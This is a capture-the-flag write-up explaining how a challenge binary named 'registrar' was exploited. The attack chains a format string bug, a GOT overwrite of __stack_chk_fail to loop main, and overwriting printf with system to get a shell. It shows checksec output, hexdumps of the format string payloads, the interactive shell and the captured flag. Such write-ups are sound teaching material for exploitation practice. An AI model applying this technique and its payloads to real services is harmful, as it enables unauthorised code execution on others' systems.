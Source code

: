 # Say as I say, not as I do - Points: 150 - (Solves: 23)

**Category**: Binary Exploitation

**Description**: We found a custom service at challenge.acictf.com:61713. Our
analysts think that the service might be vulnerable, see if you can compromise
it. Binary: [registrar](registrar), libc: [libc.so](libc.so)

**Hints**:
- Address space randomization is disabled, so ASLR-you up to the challenge?
- Historically, libc has been a good source of both ROP gadgets and utility
  functions.
- Getting remote access to the host will make obtaining the flag trivial.

## Solution

We're given a copy of a server binary and the target libc. Checksec indicates
it's a 64-bit binary with stack canaries and NX enabled. The binary has a
static base address, so we may be able to use ROP or a got overwrite without an
initial information leak if we find a memory corruption vuln.

```
$ checksec registrar
[*] '/home/user/ctf-writeups/2018-cyberstakes/say_as_i_say_not_as_i_do/registrar'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Opening the program in IDA, we see that it is incredibly straight-forward. If
no arguments are supplied, it will read up to 64 bytes into an appropriately
sized stack buffer with `read()`. It will then pass this buffer directly to
`printf()` as the first argument. This gives us a textbook format string
vulnerability, as we supply the format! The program then calls the unsafe
`gets()` function, leading to a stack based buffer overflow.

On my first pass through the binary, I saw the format string vulnerability, and
immediately decided to use it alone to gain full remote code execution.

My general methodology to solve this problem was to use the format string to
leak a libc pointer from the got in order to bypass ASLR. From there, we can
compute the offset of `system()`, and use the format string again to overwrite
a got entry with `system()`. Since the hints specify that ASLR is off, we can
leak the libc pointer in one connection, then reconnect and exploit in the
next.

A common trick I use when exploiting simple programs like this is to find a way
to "loop" the program so that we can trigger our primitive multiple times. For
this to happen, we can overwrite the `__stack_chk_fail` got entry with the
address of main in the first format string, and then cause a stack cookie
protection error by overflowing the stack-based buffer in the call to `gets()`.
On return, the program will try to call `__stack_chk_fail` since we corrupted
the cookie, but will instead restart at main.

Now that we've converted the single-shot program into a loop, we can now
trigger the format string multiple times for arbitrary read/write across all
mapped memory. For our second stage, we overwrite the got entry for `printf()`
with `system()`, and trigger our the payload by sending "/bin/sh".

We can use hellman's `libformatstr` library to quickly generate our format
string payloads. The version in the pip repository doesn't support x64, so you
will have to clone and install it directly from github.

```
cd libformatstr
sudo python2 ./setup.py install
cd -
```

A short [script](solve.py) implementing this solution yields a flag.

```
$ ./solve.py
[*] '/home/user/ctf-writeups/2018-cyberstakes/say_as_i_say_not_as_i_do/registrar'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/user/ctf-writeups/2018-cyberstakes/say_as_i_say_not_as_i_do/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaking libc base
[+] Opening connection to challenge.acictf.com on port 61713: Done
[*] Closed connection to challenge.acictf.com port 61713
[*] libc puts: 0x7ffff7a7c690
[*] libc base  : 0x7ffff7a0d000
[*] libc system: 0x7ffff7a52390
[*] main       : 0x4009e5
[*] gets.got   : 0x602068
[*] __stack_chk_fail.got: 0x602030
[+] Opening connection to challenge.acictf.com on port 61713: Done
[*] Overwriting __stack_chk_fail with main
WARNING: Can't avoid null byte at address 0x602030
WARNING: Can't avoid null byte at address 0x602032
WARNING: Payload contains NULL bytes.
[*] 00000000  25 36 34 63  25 31 33 24  68 6e 25 32  34 36 39 63  │%64c│%13$│hn%2│469c│
    00000010  25 31 34 24  68 6e 41 41  32 20 60 00  00 00 00 00  │%14$│hnAA│2 `·│····│
    00000020  30 20 60 00  00 00 00 00                            │0 `·│····││
    00000028
[*] Overwriting printf with system
WARNING: Can't avoid null byte at address 0x602038
WARNING: Can't avoid null byte at address 0x60203a
WARNING: Payload contains NULL bytes.
[*] 00000000  25 39 31 30  34 63 25 31  34 24 68 6e  25 35 34 32  │%910│4c%1│4$hn│%542│
    00000010  39 33 63 25  31 35 24 68  6e 41 41 41  41 41 41 41  │93c%│15$h│nAAA│AAAA│
    00000020  38 20 60 00  00 00 00 00  3a 20 60 00  00 00 00 00  │8 `·│····│: `·│····│
    00000030
[*] Sending /bin/sh
[*] Switching to interactive mode
$ id
uid=1027(say-as-i-say--not-as-i-do_0) gid=1028(say-as-i-say--not-as-i-do_0) groups=1028(say-as-i-say--not-as-i-do_0)
$ ls -l
total 1864
-r--r----- 1 hacksports say-as-i-say--not-as-i-do_0      33 Nov 30 12:31 flag.txt
-rw-rw-r-- 1 hacksports hacksports                  1868984 Nov 30 12:31 libc.so
-rwxr-xr-x 1 hacksports hacksports                    13480 Nov 30 12:31 registrar
-rwxr-sr-x 1 hacksports say-as-i-say--not-as-i-do_0    8672 Nov 30 12:31 registrar_no_aslr
-rwxr-sr-x 1 hacksports say-as-i-say--not-as-i-do_0     141 Nov 30 12:31 xinet_startup.sh
$ cat flag.txt
ACI{40a499a13a193b298c7de2043d1}
```

After solving this challenge, I realized it would probably have been quicker
and easier to just use the format string vulnerability for an info leak of the
canary, followed by a traditional stack buffer overflow. In any case, the
problem was solved, and this was good practice dealing with edge cases that
made exploitation harder. For one instance of this, see the comments at the
start of the [solve script](solve.py).
